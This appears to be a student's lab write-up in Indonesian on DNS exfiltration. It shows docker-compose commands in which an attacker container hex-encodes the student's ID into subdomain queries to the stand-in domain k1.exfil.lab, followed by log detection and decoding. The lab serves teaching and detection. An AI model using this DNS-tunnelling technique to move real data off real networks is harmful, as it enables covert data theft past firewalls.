

# Tugas 7 (Pertemuan 7): DNS Exfiltration dan Deteksi Log

File di folder ini:
- `docker-compose.yml` (konfigurasi lab DNS exfiltration dari `b/b4-dns-exfil`)
- `analisis_dns.py` (skrip deteksi log DNS dari `kasus/k9-dns-detect`)
- `dns-k1.log` (log hasil query `dnsmasq` dalam UTF-8)
- `screenshots/01-dns-exfil-deteksi.jpg`

# Perintah yang Dijalankan
```powershell
docker compose -p k1 -f b/b4-dns-exfil/docker-compose.yml up -d
docker compose -p k1 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131323633.k1.exfil.lab '@dns'
docker compose -p k1 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 4e494d2d32343535323031313236332d555453.k1.exfil.lab '@dns'
docker compose -p k1 -f b/b4-dns-exfil/docker-compose.yml logs dns | Out-File -Encoding utf8 dns-k1.log
python kasus/k9-dns-detect/analisis_dns.py dns-k1.log
docker compose -p k1 -f b/b4-dns-exfil/docker-compose.yml exec attacker sh -c "echo 3234353532303131323633 | xxd -r -p; echo ''"
docker compose -p k1 -f b/b4-dns-exfil/docker-compose.yml down -v
```

# Hasil dan Penjelasan
- NIM `24552011263` di-encode ke hex menjadi `3234353532303131323633` (22 karakter) dan dikirim ke `k1.exfil.lab` dengan respons `10.0.0.99`.
- Query uji kedua berlabel hex > 30 karakter (`NIM-24552011263-UTS` -> `4e494d2d32343535323031313236332d555453`, 38 karakter) juga direspons `10.0.0.99`.
- Skrip `analisis_dns.py` membaca `dns-k1.log` dan menghasilkan `exfil.lab: 2` serta menandai `panjang=38  4e494d2d32343535323031313236332d555453.k1.exfil.lab` pada bagian Query mencurigakan.
- Dekode balik dengan `xxd -r -p` mengembalikan NIM asli `24552011263`.
- Teknik ini sulit diblokir firewall biasa karena port DNS (53) selalu dibuka untuk resolusi domain, dan dapat dideteksi dari label subdomain panjang berisi karakter acak/hex serta lonjakan query ke domain induk tertentu.

# Bukti Screenshot


